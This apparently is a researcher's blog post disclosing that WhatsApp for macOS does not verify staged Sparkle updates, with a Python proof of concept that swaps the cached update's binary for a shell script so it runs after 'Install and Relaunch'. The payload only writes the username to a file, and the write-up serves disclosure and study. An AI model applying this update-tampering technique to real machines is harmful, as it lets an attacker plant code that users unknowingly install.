





# Introduction

About a month ago, I have reported this to the WhatsApp team, and they refused to acknowledge this as a 
vulnerability, so I have waited for the new version to write a blog post about the issue.

Basically, during the update time no checks have been made to confirm whether the update is legit.



I agree with their answer that an attacker could make something much worse, but still a fun issue to write about because 
there may be other applications that are vulnerable to this and may be impact can be greater than the simply replacing binary like 
it is described here.

## Analysis

Once the update is downloaded and ready to be installed, you will see the following window.


Update that is ready to be installed can be found in the `~/Library/Caches/net.whatsapp.WhatsApp/org.sparkle-project.Sparkle/Installation/RANDOM_ID/` which contains 
`WhatsApp.app`.



By default, SIP (System Integrity Protection) prevents modifications inside of `/Applications` directory which can be seen on the image below, but with this "vulnerability" we can do that.



Even though the SIP blocks this, we can still abuse the update process to plant our own binary in this case a 
simple shell script that writes current user to `/tmp/output` file.

```python
#!/usr/bin/env python3
import glob
import os
import stat

content = """#!/bin/sh

whoami > /tmp/output
"""

def main():
    # get the path to the directory
    base_path = os.path.expanduser('~/Library/Caches/net.whatsapp.WhatsApp/org.sparkle-project.Sparkle/Installation/')
    update_dir = glob.glob(base_path + '*/WhatsApp.app/Contents/MacOS', recursive=False)

    if len(update_dir) != 1:
        print("Update not found")
        print("Exiting...")
        exit()

    # obtain the binary path
    binary_path = os.path.join(update_dir[0], 'WhatsApp')

    print("Update found")
    print("Replacing the file")

    # Remove real WhatsApp binary
    os.remove(binary_path)

    # Write the content
    with open(binary_path, "w") as f:
        f.write(content)

    # give executable permissions to planted binary
    st = os.stat(binary_path)
    os.chmod(binary_path, st.st_mode | stat.S_IEXEC)

if __name__ == "__main__":
    main()
```

After running it, we can confirm that the shell script is now there instead of the original binary.



Now, the only thing left is to click on `Install and Relaunch` or wait for the user to do it and on the new run, we can see 
that our exploit is working correctly.

